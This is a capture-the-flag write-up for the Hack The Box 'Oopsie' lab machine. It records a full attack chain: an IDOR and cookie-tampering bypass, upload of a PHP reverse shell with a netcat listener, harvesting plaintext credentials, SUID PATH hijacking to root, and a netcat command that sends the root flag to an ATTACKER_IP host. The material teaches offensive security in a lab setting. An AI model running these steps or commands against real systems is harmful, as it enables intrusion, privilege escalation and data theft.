







# **Oopsie Write-up**

## **Introduction**

The HTB **Oopsie** machine serves as the target for the assessment, focusing on gaining access to both user and root flags.

The threat model revolves around a known target IP, allowing communication with the machine. Using Kali Linux as the attack platform, reconnaissance and exploitation techniques are employed to compromise the system.

`TARGET_IP=10.129.188.219`

`ATTACKER_IP=10.10.15.93`

During web assessments, especially those that involve authentication mechanisms, it is crucial to examine cookies, sessions, and access control thoroughly. Often, gaining access or achieving Remote Code Execution involves chaining multiple vulnerabilities together, rather than relying on a single exploit.

## **Reconaissance**

The reconnaissance phase begins with enumeration: a port scan of the victim’s IP address is performed using the Nmap tool to gather useful information, such as open ports, active services and their versions.

Open ports might indicate services that could have vulnerabilities or weak configurations, making them potential entry points. Additionally, knowing the operating system and software versions can help an attacker choose the appropriate exploits or strategies.

`nmap -sC -sV $TARGET_IP`

The Nmap scan reveals that the target system has two open ports: SSH on port 22 and HTTP on port 80:

- SSH is running OpenSSH 7.6p1 on an Ubuntu-based system, suggesting remote management and shell access are enabled.
- Apache HTTP Server 2.4.29 is running on port 80, indicating a web server is present, also likely hosted on Ubuntu.

## **Discovery**

The next step is to visit the target IP in a web browser to gather additional information about the web server and its content.

The homepage reveals useful information about service access. An email address is also visible, which could serve as a target for spearphishing attempts.

The links on the homepage do not point to any actual pages, prompting the decision to perform web enumeration and search for the login page for _Megacorp_'s _Services_. To aid this process, file and directory fuzzing was conducted using Gobuster.

`gobuster dir --url http://$TARGET_IP/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php`

The website does not contain a visible login page. The `/uploads` folder exists but is inaccessible due to forbidden access restrictions. Further investigation requires the use of an additional tool to gather more information.

A tool like Burp Suite is suitable for automating the process of crawling and mapping the website. To use it, the browser proxy is manually set to localhost (`127.0.0.1`).

With Burp Suite set to intercept _off_ (passive mode), refreshing the homepage allows the tool to capture the site map for further analysis.

The site map reveals the presence of a `/cdn/cgi/login/script.js` file.

## **Initial Access**

Accessing the URL `http://{TARGET_IP}/cdn-cgi/login` leads to a login page that includes a _Login as Guest_ button. By logging in as a guest, it becomes possible to access the _Repair Management System_ page, which contains a navigation menu:

- the _Account_ page displays a table containing fields such as _Access ID_, _Name_, and _Email_ for the guest user;
- on the _Uploads_ page, the message "_This action requires super admin rights_" is displayed, indicating restricted access.

Note that the `user` and `role` cookies correspond to the _Access ID_ and _Name_ fields found on the guest _Account_ page.

## **Privilege Escalation**

The query string in the _Account_ page URL contains a numeric `id` parameter. Modifying its value to `1` grants access to the admin _Repair Management System_ page, representing a breach of the **Complete Mediation** principle:

> "Every access to every object must be checked for authority. [...]"
>
> — Saltzer & Schroeder, _Basic Principles of Information Protection_

To attempt exploiting the potential **IDOR vulnerability**, Burp Suite's Intruder can be utilized. The `/cdn-cgi/login/admin.php?content=accounts&id=2` resource is identified from Burp Suite's HTTP history and then sent to Intruder for testing.

The `id` value is chosen as the payload and a custom list of 50 sequential numbers is generated in the options. This method is intended to test the possibility of unauthorized access to other resources. By setting the request to always follow redirections and intercept _on_, the attack begins.

Analyzing the responses sorted by decreasing length reveals the presence of multiple accounts, including a super admin account.

| id  | Access ID |    Name     |          Email          |
| :-: | :-------: | :---------: | :---------------------: |
|  1  |   34322   |    admin    |   admin@megacorp.com    |
|  2  |   2233    |    guest    |   guest@megacorp.com    |
|  4  |   8832    |    john     |    john@tafcz.co.uk     |
| 13  |   57633   |    Peter    |    peter@qpic.co.uk     |
| 23  |   28832   |    Rafol    |     tom@rafol.co.uk     |
| 30  |   86575   | super admin | superadmin@megacorp.com |

With the gathered information, cookie manipulation is performed to bypass authentication.

> **Authorization Bypass Through User-Controlled Key [CWE-639]**:
>
> The system's authorization functionality does not prevent one user from gaining access to another user's data or record by modifying the key value identifying the data.

The `user` and `role` guest cookies stored in the browser are modified with the _Access ID_ and _Name_ values of the super admin account. This allows access to the _Uploads_ page, where a file uploader is now visible.

## **Execution**

The next phase involves gaining access to Oopsie by uploading a [PHP reverse shell](https://github.com/BlackArch/webshells/blob/master/php/php-reverse-shell.php). The attacker prepares by downloading the reverse shell script and configuring it with the its own IP address and a listening port (e.g. `4444`).

Once the script is uploaded, an attempt to access the `/uploads` resource results in a "forbidden" response. A Netcat listener is then initiated on the attacker's machine, ready to catch any incoming connections.

`nc -lvnp 4444`

Execution is triggered by navigating to `/uploads/php-reverse-shell.php` in a browser, which activates the payload. Upon successful connection, the current user on the target system is revealed by executing the `whoami` command.

To enhance control and achieve full interactivity with the compromised system, the shell is upgraded with a Python command, enabling more efficient interaction.

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

## **Credential Access**

In the lateral movement phase, the target host filesystem enumeration starts by exploring the `/var/www/html/` directory. Commonly utilized in Linux systems, especially in web server configurations such as Apache, the directory stores publicly accessible website files.

The command `cat * | grep -i passw*` is executed inside the `/var/www/html/cdn-cgi/login` directory to search for potential password information or other sensitive data related to credentials. This reveals the password `MEGACORP_4dm1n!!` for the username `admin`. Further investigation into the `db.php` file reveals another valid credential (`M3g4C0rpUs3r!`) for the user `robert`.

The next step involves examining the `/etc/passwd` file to identify system users, where an entry for the user `robert` is found.

## **Lateral Movement**

After gaining access through the execution of the `su robert` command using the discovered credentials, the contents of the `/home/robert/` directory are explored. Within this directory, further exploration uncovers a hidden secret, the user flag `user.txt`.

## **Privilege Escalation**

Attempting to run `sudo -l` results in a message indicating insufficient privileges for using `sudo`. The `id` command is used next to check the current user's group memberships, revealing that the user `robert` belongs to the `bugtracker` group.

To further investigate the group's permissions, a search is conducted for files across the system (`/`) that are owned by the `bugtracker` group.

`find / -type f -group bugtracker 2> /dev/null`

Upon locating a file named `/usr/bin/bugtracker`, its privileges and type are examined.

`ls -la /usr/bin/bugtracker && file /usr/bin/bugtracker`

The analysis reveals that it is a binary file with SUID permissions, suggesting a potential vector for privilege escalation. The Set User ID (SUID) is a special file permission on Linux and Unix systems that allows an executable to run with the privileges of the file's owner, typically root, instead of the user executing the file.

Upon inspecting the output of several `/usr/bin/bugtracker` executions, it becomes evident that a system command is being called using the `cat` command, but with a relative path instead of an absolute one.

This behavior reveals a potential vulnerability, allowing for privilege escalation to root through a misconfiguration. Within the `/tmp` directory, a shell script is created by writing `/bin/sh` to a file named `cat`.

`echo '/bin/sh' > cat`

The script is then made executable using the `chmod +x cat` command.

This enables path hijacking by modifying the `PATH` environment variable to prioritize the `/tmp` directory, which is writable by all users and non-permanent.

`export PATH=/tmp:$PATH`

The `bugtracker` file can now be exploited to gain shell access by utilizing the altered path. Confirming the current user with `whoami` verifies the success of the exploit.

## **Exfiltration**

Navigating to the `/root` directory grants access to the `root.txt` flag. The next step involves exfiltrating the root flag to the local machine.

A listener is established on the receiving host to capture the flag.

`nc -l -p 8888 > root.txt`

From the target machine, the flag is transferred to the attacker.

`nc -w 3 $ATTACKER_IP 8888 < root.txt`

---

---

---

Resources: official and non-official write-ups, Google search, ChatGPT
